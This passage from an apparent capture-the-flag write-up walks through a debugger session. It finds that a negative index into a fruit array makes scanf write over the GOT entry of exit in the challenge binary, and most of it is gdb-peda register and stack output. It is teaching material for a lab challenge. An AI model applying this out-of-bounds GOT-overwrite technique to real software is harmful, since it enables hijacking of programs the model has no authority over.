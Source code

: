 ```console
0032| 0x7fffffffe530 --> 0x7ffff7c57cb0 (<scanf>:	endbr64)
0040| 0x7fffffffe538 --> 0xa31985351887d00 
0048| 0x7fffffffe540 --> 0x7fffffffe560 --> 0x1 
0056| 0x7fffffffe548 --> 0x4016c7 (<main+87>:	jmp    0x4016bd <main+77>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000401604 in basket ()
```

Ok so when our input was `-5` our data is being written to `0x405058` which is pretty close to `0x405040` (GOT entry of `exit`). Let's try `-8`
```console
gdb-peda$ run
Starting program: /home/vulnx/CTFs/sunshine/array_of_sunshine/sunshine 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
MMMMMMMMMMMMMMMMMMMMMMMMMWx..cONMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMXkc..;xNMMMMWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
...
Which fruit would you like to eat [0-3] >>> -8
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x7fffffffe678 --> 0x7fffffffe987 ("/home/vulnx/CTFs/sunshine/array_of_sunshine/sunshine")
RCX: 0x0 
RDX: 0xffffffffffffffc0 
RSI: 0x405040 --> 0x4010b6 (<exit@plt+6>:	push   0x8)
RDI: 0x402e7d --> 0x6972700073343225 ('%24s')
RBP: 0x7fffffffe540 --> 0x7fffffffe560 --> 0x1 
RSP: 0x7fffffffe510 --> 0xfffffff800000000 
RIP: 0x401604 (<basket+178>:	call   0x4010a0 <__isoc99_scanf@plt>)
R8 : 0x1999999999999999 
R9 : 0xa ('\n')
R10: 0x7ffff7d82ac0 --> 0x100000000 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffe688 --> 0x7fffffffe9bc ("SHELL=/bin/zsh")
R14: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x0 
R15: 0x404e00 --> 0x401170 (<__do_global_dtors_aux>:	endbr64)
EFLAGS: 0x203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4015f5 <basket+163>:	lea    rax,[rip+0x1881]        # 0x402e7d
   0x4015fc <basket+170>:	mov    rdi,rax
   0x4015ff <basket+173>:	mov    eax,0x0
=> 0x401604 <basket+178>:	call   0x4010a0 <__isoc99_scanf@plt>
   0x401609 <basket+183>:	mov    QWORD PTR [rbp-0x28],0x404020
   0x401611 <basket+191>:	mov    QWORD PTR [rbp-0x20],0x404038
   0x401619 <basket+199>:	mov    rax,QWORD PTR [rbp-0x28]
   0x40161d <basket+203>:	mov    rax,QWORD PTR [rax]
Guessed arguments:
arg[0]: 0x402e7d --> 0x6972700073343225 ('%24s')
arg[1]: 0x405040 --> 0x4010b6 (<exit@plt+6>:	push   0x8)
arg[2]: 0xffffffffffffffc0 
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe510 --> 0xfffffff800000000 
0008| 0x7fffffffe518 --> 0x7fffffffe688 --> 0x7fffffffe9bc ("SHELL=/bin/zsh")
0016| 0x7fffffffe520 --> 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x0 
0024| 0x7fffffffe528 --> 0x40153b (<logo+623>:	nop)
0032| 0x7fffffffe530 --> 0x7ffff7c57cb0 (<scanf>:	endbr64)
0040| 0x7fffffffe538 --> 0x4964c047dd3bbf00 
0048| 0x7fffffffe540 --> 0x7fffffffe560 --> 0x1 
0056| 0x7fffffffe548 --> 0x4016c7 (<main+87>:	jmp    0x4016bd <main+77>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```